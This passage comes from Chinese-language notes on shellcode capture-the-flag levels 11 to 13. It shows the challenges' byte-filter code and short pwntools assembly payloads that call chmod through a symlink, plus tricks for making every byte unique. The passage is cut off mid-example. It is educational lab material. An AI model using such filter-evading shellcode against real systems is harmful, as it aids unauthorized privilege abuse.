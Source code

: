 ```c
sh = asm('''
push 0x41
mov rdi,rsp
push 4
pop rsi
mov al,0x5a      
syscall
''')
```
## 其他方法【待补充.....】
# level 12 shellcode 中各个字节均不同
> Tips：尽管使用相同的指令，但是最后的生成字节也可能不一样。如：
> mov rax,rbx=====>48 89 D8
> mov al,0x3  =====>B0 03

> 具体还与操作对象有关。
> 另外，只需要满足数据操作互相替换即可：mov、push、or、and、xor、inc，imult、div、shl、shr等等，基本都能替换。

```c
    puts("This challenge requires that every byte in your shellcode is unique!\n");
    unsigned char present[256] = {0};
    for (int i = 0; i < shellcode_size; i++)
    {
        if (present[((uint8_t*)shellcode_mem)[i]])
        {
            printf("Failed filter at byte %d!\n", i);
            exit(1);
        }
        present[((uint8_t*)shellcode_mem)[i]] = 1;
    }
```
## sil 代替 rsi
> 需要满足 rsi 高位全零。最少是高 32 位全 0

```python
sh = asm('''
push 0x41
mov rdi,rsp
xor esi,esi    # 有时候可以不要，【len】min = 12bytes
mov sil,0x4
mov al,0x5a      
syscall
''')
```
## 其他技巧【待补充......】

# level 13. 12字节shellcode 移除写入权限
```basic

puts("Reading 0xc bytes from stdin.\n");
shellcode_size = read(0, shellcode_mem, 0xc);
assert(shellcode_size > 0);

puts("Removing write permissions from first 4096 bytes of shellcode.\n");
assert(mprotect(shellcode_mem, 4096, PROT_READ|PROT_EXEC) == 0);
```
## chmod 软链接方法
```python
sh = asm('''
```